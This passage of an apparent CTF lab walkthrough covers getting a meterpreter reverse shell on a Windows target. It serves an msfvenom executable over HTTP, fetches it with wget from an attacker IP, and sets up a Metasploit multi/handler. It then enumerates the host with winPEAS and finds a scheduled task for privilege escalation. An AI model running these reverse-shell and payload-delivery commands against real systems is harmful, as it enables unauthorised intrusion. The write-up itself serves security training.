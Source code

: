 <img width="482" alt="17" src="https://user-images.githubusercontent.com/28839345/165507841-01bb6d78-bddb-411b-a9a8-49920a4635d1.png">

Create an msfvenom payload.

<img width="986" alt="18_msfvenom" src="https://user-images.githubusercontent.com/28839345/165507842-9bd11dbf-30fe-4117-89c7-598d124eda56.png">

Start an http server as show below using the command 
`python3 -m http.server` to upload the msfvenom reverse shell to netcat listener reverse shell.

<img width="688" alt="19_python-http-servet" src="https://user-images.githubusercontent.com/28839345/165507845-4ef671d0-0b38-49ef-9fb3-3ba642b1855a.png">

Then go to the 'C"\Windows\Temp' directory and downlaod the reverse shell from the http server using the command 
`wget "http://10.10.107.62:8000/reverse_shell.exe" -outfile "reverse_shell.exe"`.

- Metasploit commands to run a mult/handler
`use exploit/multi/handler`  
`set PAYLOAD windows/meterpreter/reverse_tcp`  
`set LHOST 10.10.83.129   
`set LPORT 4445`  
`run`

<img width="920" alt="21_running_msf_shell" src="https://user-images.githubusercontent.com/28839345/165507851-42bd33b0-33be-45d8-a8e2-44d42b27219b.png">

Then in your netcat listener start the reverse shell with the command `reverse_shell.exe`.

<img width="460" alt="22_running_reverse_shell" src="https://user-images.githubusercontent.com/28839345/165507859-c0879959-692e-44c5-8322-d0d6d95e9c90.png">

If you followed the previous steps successfully then a meterpreter shell will be spawned as shown in the picture below.

<img width="977" alt="23_spawn_multi_handler" src="https://user-images.githubusercontent.com/28839345/165507860-f7470aa4-6acf-4835-b669-6318142bc8d9.png">

Then run the `sysinfo` command to check the systems specifications.

<img width="672" alt="24_sysinfo" src="https://user-images.githubusercontent.com/28839345/165507865-861c59a4-12af-4c5f-929c-4e650132f49d.png">

To enumerate the windows machine download 'winPEASEx64.exe' from github to the windows machine and start the executable.

Run the command `winPEASx64.exe servicesinfo` .Scroll down and you will see the following output.

<img width="1337" alt="25_winPEASx64 exe_servicesinfo" src="https://user-images.githubusercontent.com/28839345/165507868-522b02a6-bb4c-4e8f-8033-767449c36219.png">


To check the running tasks of the system scheduler first navigate to the directory

`c:\Program Files (x86)\SystemScheduler`.The task that can be used to escalate our priviledges is the Message.exe file.The way I found out that this is the file that can be used to escalate our priviledges and spawn a reverse shell is 
that adter running a couple of times the command `tasklist /v` I saw that this file was executed every 30 seconds.The output of the `tasklist /v` command is shown below.

<img width="1137" alt="26_tasklist_:v" src="https://user-images.githubusercontent.com/28839345/165507871-6884fcc7-1ba3-49dc-9916-80133d165022.png">
